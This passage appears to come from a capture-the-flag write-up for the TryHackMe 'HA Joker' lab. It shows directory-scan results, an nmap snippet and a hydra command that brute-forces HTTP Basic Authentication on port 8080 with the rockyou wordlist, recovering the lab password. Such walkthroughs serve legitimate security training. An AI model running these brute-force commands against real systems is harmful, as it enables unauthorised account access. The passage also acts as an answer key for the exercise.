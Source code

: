 ```
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/css (Status: 301)
/img (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/phpinfo.php (Status: 200)
/phpinfo.php (Status: 200)
/secret.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/10/08 20:05:04 Finished
===============================================================
```

`secret.txt`

5. There is another file which reveals information of the backend, what is it?

`phpinfo.php`

1. When reading the secret file, We find with a conversation that seems contains at least two users and some keywords that can be intersting, what user do you think it is?

- [http://10.10.252.64/secret.txt](http://10.10.252.64/secret.txt)

```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

2. What port on this machine need to be authenticated by Basic Authentication Mechanism?

```
8080/tcp open  http    Apache httpd 2.4.29
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Please enter the password.
```

3. At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?

```
kali@kali:~/CTFs/tryhackme/HA Joker CTF$ hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 10.10.252.64 -m / http-get
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-08 20:10:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.252.64:8080/
[8080][http-get] host: 10.10.252.64   login: joker   password: hannah
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-08 20:10:47
```
